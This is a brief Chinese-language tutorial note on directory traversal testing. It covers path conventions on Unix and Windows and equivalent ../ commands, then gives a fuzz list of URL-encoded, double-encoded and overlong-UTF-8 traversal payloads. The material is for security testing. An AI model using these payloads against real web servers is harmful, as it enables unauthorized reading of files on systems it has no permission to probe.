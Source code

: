 ### 基础知识

系统相关

| |root directory|directory separator|
|:-------------:|--|-----|
|Unix-like OS|`/`|`/`|
|Windows|`<drive letter>:\`|`\` or `/`|


Unix-like OS(macOS下实际测试)
```
上级目录
../

当前目录
./

查看上级目录下的1.txt的命令有很多(因为./表示当前目录 加多个也不影响 没作用)
直接查看
cat ../1.txt

在跨目录之后使用./
cat .././1.txt
cat ../././1.txt

在跨目录之前使用./
cat ./../1.txt
cat ././../1.txt

在跨目录之前之后都使用./
cat ./.././1.txt
cat ././../././1.txt
```

### 测试方法

#### payload - 参数值字符串

使用dotdotpwn.txt或手工进行fuzz
```
# Encoding and double encoding
%2e%2e%2f represents ../
%2e%2e/ represents ../
..%2f represents ../ 
%2e%2e%5c represents ..\
%2e%2e\ represents ..\ 
..%5c represents ..\ 
%252e%252e%255c represents ..\ 
..%255c represents ..\

# Web容器对form和URL中的"百分比编码"执行一级解码(one level of decoding)
..%c0%af represents ../ 
..%c1%9c represents ..\ 
```

